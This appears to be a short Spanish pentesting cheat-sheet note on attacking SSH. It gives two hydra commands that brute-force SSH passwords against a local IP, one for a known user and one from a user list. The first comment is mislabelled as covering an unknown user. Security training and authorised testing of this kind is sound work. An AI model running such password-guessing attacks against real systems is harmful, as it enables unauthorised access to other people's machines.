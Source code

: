 
---
## Ataques al protocolo SSH:
Es importante cambiar los parametros:

```bash
# En caso no sepamos el usuario
hydra -l <usuario> -P contraseñas.txt ssh://192.168.1.10

# En caso no sepamos el usuario
hydra -L usuarios.txt -P contraseñas.txt ssh://192.168.1.10
```
